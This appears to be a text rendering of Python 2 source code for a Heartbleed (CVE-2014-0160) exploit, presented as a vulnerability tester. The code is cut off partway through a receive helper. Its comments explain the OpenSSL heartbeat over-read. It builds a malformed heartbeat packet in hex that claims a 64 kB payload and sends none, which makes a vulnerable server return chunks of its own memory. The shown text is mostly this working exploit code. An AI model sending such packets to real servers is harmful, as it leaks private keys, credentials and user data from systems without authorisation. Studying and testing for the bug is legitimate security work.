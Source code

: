 # This is the packet that triggers the memory over-read.
# The heartbeat protocol works by returning to the client the same data that was sent;
# that is, if we send "abcd" the server will return "abcd".

# The flaw is triggered when we tell the server that we are sending a message that is X bytes long
# (64 kB in this case), but we send a shorter message; OpenSSL won't check if we really sent the X bytes of data.

# The server will store our message, then read the X bytes of data from its memory
# (it reads the memory region where our message is supposedly stored) and send that read message back.

# Because we didn't send any message at all
# (we just told that we sent FF FF bytes, but no message was sent after that)
# when OpenSSL receives our message, it wont overwrite any of OpenSSL's memory.
# Because of that, the received message will contain X bytes of actual OpenSSL memory.


heartbleedPacket = (
'18 03 02 00 03'    # Content type = 18 (heartbeat message); Version = 03 02; Packet length = 00 03
'01 FF FF'          # Heartbeat message type = 01 (request); Payload length = FF FF
                    # Missing a message that is supposed to be FF FF bytes long
).replace(' ', '').decode('hex')



options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')


def dump(s):
    packetData = ''.join((c if 32 <= ord(c) <= 126 else '.' )for c in s)
    print '%s' % (packetData)
    
  
def recvall(s, length, timeout=5):
    endtime = time.time() + timeout
    rdata = ''
    remain = length
    while remain > 0:
        rtime = endtime - time.time()
        if rtime < 0:
            return None